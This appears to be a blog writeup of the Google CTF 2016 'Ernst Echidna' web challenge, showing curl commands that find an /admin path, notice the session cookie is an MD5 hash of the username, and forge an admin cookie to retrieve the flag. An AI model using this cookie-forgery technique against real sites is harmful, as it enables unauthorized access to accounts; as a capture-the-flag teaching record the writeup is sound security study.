 ```yaml
---
layout: post
alias: "/blog/2016/05/02/google-ctf-2016-ernst-echidna/"
title: "Google Capture The Flag 2016: Ernst Echidna"
date: 2016-05-02T02:33:12+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


Follow the hint in the problem statement, you can know there is a directory `/admin`. And it seems that check the user by the cookie.

``` sh
$ curl --insecure https://ernst-echidna.ctfcompetition.com/robots.txt
Disallow: /admin
```

When you do register, a cookie is baked.

``` sh
$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/register -F username=hoge -F password=fuga
HTTP/1.1 100 Continue

HTTP/1.1 302 Found
Location: /welcome
Content-Type: text/html; charset=utf-8
Date: Sun, 01 May 2016 06:27:54 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: md5-hash=ea703e7aa1efda0064eaa507d9e8ab7e; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
```

And it is matchs with the username.

``` sh
$ echo -n hoge | md5sum
ea703e7aa1efda0064eaa507d9e8ab7e  -
```

So you should md5sum the string `admin` and throw it.

``` sh
$ echo -n admin | md5sum
21232f297a57a5a743894a0e4a801fc3  -

$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/admin --cookie md5-hash=21232f297a57a5a743894a0e4a801fc3
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:28:45 GMT
Server: Google Frontend
Cache-Control: private
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

<html>
  <head>
   <meta charset="utf-8">
   <title>gloomy-scorpion</title>
   <link rel="stylesheet" href="/static/bootstrap.min.css" media="screen">
  </head>
  <body>
    <div class="container">
      <h1>The authentication server says..</h1>
      <p>Congratulations, your token is &#39;CTF{renaming-a-bunch-of-levels-sure-is-annoying}&#39;</p>
    </div>
  </body>
</html>
```
